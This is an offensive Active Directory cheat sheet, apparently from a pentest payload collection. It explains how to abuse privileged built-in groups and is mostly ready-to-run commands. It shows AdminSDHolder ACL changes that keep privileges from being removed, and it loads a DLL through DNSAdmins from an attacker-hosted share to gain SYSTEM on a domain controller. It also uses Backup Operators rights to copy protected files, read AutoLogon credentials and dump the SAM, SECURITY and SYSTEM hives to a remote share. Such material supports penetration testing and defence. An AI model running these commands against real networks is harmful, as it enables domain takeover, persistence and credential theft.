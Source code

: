 # Active Directory - Groups 

## Dangerous Built-in Groups Usage

If you do not want modified ACLs to be overwritten every hour, you should change ACL template on the object `CN=AdminSDHolder,CN=System` or set `"dminCount` attribute to `0` for the required object.

>  The AdminCount attribute is set to `1` automatically when a user is assigned to any privileged group, but it is never automatically unset when the user is removed from these group(s).

Find users with `AdminCount=1`.

```ps1
netexec ldap 10.10.10.10 -u username -p password --admin-count
# or
bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 get search --filter '(admincount=1)' --attr sAMAccountName
# or
python ldapdomaindump.py -u example.com\john -p pass123 -d ';' 10.10.10.10
jq -r '.[].attributes | select(.adminCount == [1]) | .sAMAccountName[]' domain_users.json
# or
Get-ADUser -LDAPFilter "(objectcategory=person)(samaccountname=*)(admincount=1)"
Get-ADGroup -LDAPFilter "(objectcategory=group) (admincount=1)"
# or
([adsisearcher]"(AdminCount=1)").findall()
```


## AdminSDHolder Attribute

> The Access Control List (ACL) of the AdminSDHolder object is used as a template to copy permissions to all "protected groups" in Active Directory and their members. Protected groups include privileged groups such as Domain Admins, Administrators, Enterprise Admins, and Schema Admins.

If you modify the permissions of **AdminSDHolder**, that permission template will be pushed out to all protected accounts automatically by `SDProp` (in an hour).

E.g: if someone tries to delete this user from the Domain Admins in an hour or less, the user will be back in the group.

* Windows/Linux:
  ```ps1
  bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 add genericAll 'CN=AdminSDHolder,CN=System,DC=example,DC=lab' john

  # Clean up after
  bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 remove genericAll 'CN=AdminSDHolder,CN=System,DC=example,DC=lab' john
  ```

* Windows only:
  ```ps1
  # Add a user to the AdminSDHolder group:
  Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=domain,DC=local' -PrincipalIdentity username -Rights All -Verbose

  # Right to reset password for toto using the account titi
  Add-ObjectACL -TargetSamAccountName toto -PrincipalSamAccountName titi -Rights ResetPassword

  # Give all rights
  Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName toto -Verbose -Rights All
  ```


## DNS Admins Group

> It is possible for the members of the DNSAdmins group to load arbitrary DLL with the privileges of dns.exe (SYSTEM).

:warning: Require privileges to restart the DNS service.

* Enumerate members of DNSAdmins group
  * Windows/Linux:
    ```ps1
    bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 get object DNSAdmins --attr msds-memberTransitive
    ```
  * Windows only:
    ```ps1
    Get-NetGroupMember -GroupName "DNSAdmins"
    Get-ADGroupMember -Identity DNSAdmins
    ```
* Change dll loaded by the DNS service
    ```ps1
    # with RSAT
    dnscmd <servername> /config /serverlevelplugindll \\attacker_IP\dll\mimilib.dll
    dnscmd 10.10.10.11 /config /serverlevelplugindll \\10.10.10.10\exploit\privesc.dll

    # with DNSServer module
    $dnsettings = Get-DnsServerSetting -ComputerName <servername> -Verbose -All
    $dnsettings.ServerLevelPluginDll = "\attacker_IP\dll\mimilib.dll"
    Set-DnsServerSetting -InputObject $dnsettings -ComputerName <servername> -Verbose
    ```
* Check the previous command success
    ```ps1
    Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
    ```
* Restart DNS
    ```ps1
    sc \\dc01 stop dns
    sc \\dc01 start dns
    ```

## Schema Admins Group

> The Schema Admins group is a security group in Microsoft Active Directory that provides its members with the ability to make changes to the schema of an Active Directory forest. The schema defines the structure of the Active Directory database, including the attributes and object classes that are used to store information about users, groups, computers, and other objects in the directory.


## Backup Operators Group

> Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer. This group cannot be renamed, deleted, or moved. By default, this built-in group has no members, and it can perform backup and restore operations on domain controllers.

This groups grants the following privileges :
- SeBackup privileges
- SeRestore privileges

Get members of the group:

* Windows/Linux:
    ```ps1
    bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 get object "Backup Operators" --attr msds-memberTransitive
    ```

* Windows only:
    ```ps1
    PowerView> Get-NetGroupMember -Identity "Backup Operators" -Recurse
    ```

Enable privileges using [giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)

```ps1
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

Retrieve sensitive files

```ps1
Copy-FileSeBackupPrivilege C:\Users\Administrator\flag.txt C:\Users\Public\flag.txt -Overwrite
```

Retrieve content of AutoLogon in the `HKLM\SOFTWARE` hive

```ps1
$reg = [Microsoft.Win32.RegistryKey]::OpenRemoteBaseKey('LocalMachine', 'dc.htb.local',[Microsoft.Win32.RegistryView]::Registry64)
$winlogon = $reg.OpenSubKey('SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon')
$winlogon.GetValueNames() | foreach {"$_ : $(($winlogon).GetValue($_))"}
```

Retrieve `SAM`,`SECURITY` and `SYSTEM` hives

* [mpgn/BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA): `.\BackupOperatorToDA.exe -t \\dc1.lab.local -u user -p pass -d domain -o \\10.10.10.10\SHARE\`
* [improsec/BackupOperatorToolkit](https://github.com/improsec/BackupOperatorToolkit): `.\BackupOperatorToolkit.exe DUMP \\PATH\To\Dump \\TARGET.DOMAIN.DK`


## References

* [Poc’ing Beyond Domain Admin - Part 1 - cube0x0](https://cube0x0.github.io/Pocing-Beyond-DA/)
* [WHAT’S SPECIAL ABOUT THE BUILTIN ADMINISTRATOR ACCOUNT? - 21/05/2012 - MORGAN SIMONSEN](https://morgansimonsen.com/2012/05/21/whats-special-about-the-builtin-administrator-account-12/)